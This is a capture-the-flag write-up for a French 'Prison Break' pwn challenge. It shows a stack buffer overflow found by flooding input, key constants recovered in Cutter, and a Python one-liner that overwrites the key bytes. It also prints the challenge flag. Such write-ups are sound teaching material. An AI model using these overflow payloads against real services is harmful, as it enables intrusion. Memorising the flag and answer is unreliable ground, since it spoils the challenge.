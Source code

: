 # Prison Break



````
[Noiche] : J'ai été envoyé au goulag l'année dernière à cause de mes challenges de PWN... Venez m'aider à sortir d'ici et je vous récompenserai :p

Accès au challenge : nc ctf.midnightflag.fr 9021

Format : MCTF{}

Auteur : Noiche
````

Files :

[Prison_Break](files/prison_break)

The file given is non executable and is just given to reverse the code of the server. We cannot get the flag only by reversing the file.

Here is what we get by connecting to the server using nc:

![prison_server](images/prison_server.png)

After writing something, we get this message:

```
Noiche : NOOOO !! You droped the wrong key ! :(
Key    : [ 0x0 - 0x0 - 0x0 - 0x0 - 0x0 ]
```

Well, we will surely need to change this value in order to free Noiche. First we try a basic buffer overflow by flooding the input with A:

```sh
python -c "print 'A' * 1000" | nc ctf.midnightflag.fr 9021

...

Noiche : NOOOO !! You droped the wrong key ! :(
Key    : [ 0x41414141 - 0x41414141 - 0x41414141 - 0x41414141 - 0x41414141 ]
```

We can control the key! ...but we don't know what key do we need.

Let's take a quick look at the executable. We open it in [Cutter](https://cutter.re/), and we can directly see a function named `vuln`.

![prison_functions](images/prison_functions.png)

The function is pretty simple, we can see some parts that stand out.

The function set 6 memory spaces to 0, we can ignore `var_ch`:

![prison_memory_set](images/prison_memory_set.png)

It's seems that those are the memory spaces we overflowed before. All space are 4 bytes long and are next to each other.

There is a scanf and some comparisons just after:

![prison_cmp](images/prison_cmp.png)

The different parts of the key are being checked here. We can reproduce the key by using the parameters in each cmp: `0x800`, `0xfffffe49`, `0xb3350000`, `0x0` and `0x1000`.

We will fill the input with 'A' until we reach the start of the key and then write the actual key.   
Since the stack is little endian, we will need to reverse each byte in every part of the key in the final payload (e.g. `0xfffffe49` will become `0x49feffff`).

The payload can be done using Python:
```sh
python -c "print 'A' * number_to_overflow + '\x00\x10\x00\x00' + '\x00\x00\x00\x00' + '\x00\x00\x35\xb3' + '\x49\xfe\xff\xff' + '\x00\x08\x00\x00'" | nc ctf.midnightflag.fr 9021
```

By guessing, we find that we need to write 256 bytes to reach the key in memory.   
We can then replace `number_to_overflow` in our script by 256 and send it once again:

![prison_free](images/prison_free.png)

Here is the flag!

Flag: `MCTF{___1m_fr33_!_1_c4n_m4k3_m0r3_ch4ll5_n0w_!!!___}`

Author: Ooggle

